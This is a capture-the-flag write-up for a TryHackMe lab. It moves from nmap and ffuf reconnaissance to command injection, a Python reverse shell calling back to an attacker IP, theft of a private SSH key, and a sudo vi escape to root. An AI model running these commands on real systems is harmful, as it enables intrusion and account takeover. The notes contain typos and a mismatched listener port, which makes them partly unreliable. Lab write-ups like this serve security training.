 This is a vulnerable lab available @ https://tryhackme.com/room/chocolatefactory



POC


part A: gaining initial Access

Nmap scan: The pentest started with a nmap scan using 
nmap -T4 -sV -A 10.10.12.204  
![image](https://github.com/user-attachments/assets/d6c9ab51-46d6-495e-981e-8544c5f4d30c)

This have back the services running on the server,


a. Port 21: This allowed anonymous login, and the port was accessed using 
ftp  10.10.12.204

After a succesful login, the file was downloaded 
![image](https://github.com/user-attachments/assets/ef7fc003-7fd9-4f0f-9684-7ec8988b2df4)



picture showing the download 
![gum_room](https://github.com/user-attachments/assets/39218184-a257-44b5-9826-ecdcd8ec7f1d)

b.  80: The website has a homepage with a login form

The homepage
![image](https://github.com/user-attachments/assets/88eac3bd-6883-4760-a27f-67bc0fafd0b0)


The port 80 was subjected to directory bruteforce using FFUF
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.12.204/FUZZ -e .php, .HTML 

and some directories were gotten, they include home.php, index.html, and others 

Picture below shows the result of the FFUF 
![image](https://github.com/user-attachments/assets/5d46e6f6-472b-4618-a95b-b9326c204f07)


getting to The home.php, it was discovered that the page has a command functionality 
![image](https://github.com/user-attachments/assets/7e8555a3-049a-4558-aa7c-c8305eaa9b4c)


Trying the comman d"Cat /etc", the website gave a response showing that it is vulnerable to command ninjection vulnerability
![image](https://github.com/user-attachments/assets/8c73edae-6c13-4884-8868-df07f4aef56d)



the website was querried to confirm if there is a python binary on it 

using the command 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.106.235",2294));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
and
nc -nlvp 2249

A reverse shell was gotten 
Picture showing the reverse shell gotten from the server hosting the website
![image](https://github.com/user-attachments/assets/eb87dc55-adaa-46cc-9b3d-5ca84aaad3db)


And we were able to get initial access...


Part B: Privilege escalation

After initial access was gained with the user www-data
some files were found in the directory which includes key_rev_key

Using the command "strings" to check the content of the file "key_rev_key"
![image](https://github.com/user-attachments/assets/af1530b0-29d1-4246-a24c-22a9777c0180)


Then using cat /etc/passwd, the user accounts on the machine was discovered, and a user called charlie was part of it.

Thn I navigated to charlie's home directory and files like telport, telport.pub were found
the content of charlie's home directory
![image](https://github.com/user-attachments/assets/fc896cf9-6549-4345-90e2-ecf7d2debc0c)



The teleport file contained a private ssh key, this key was copied and saved on the attacker's machine 

The key was then used to login to charlie's account via ssh 
ssh charlie@10.10.12.204 -i charley 

Picture showing a successful login
![image](https://github.com/user-attachments/assets/6cd2fc4f-ff14-4f8d-b632-d71b9e41ebf9)














2. Directoy bruteforce that leads to a acommand njectin page
3. run a php or bash shell command 

after getting the shell
find the user account
navigate to charlie's account and get the user flag by
  1. grabbing a private ssh keys
  2. ssh charlie@ip -i name_of_key

then
get the user flag
then
  sudo -l
  sudo /usr/bin.vi
  then !/bin/bash

  
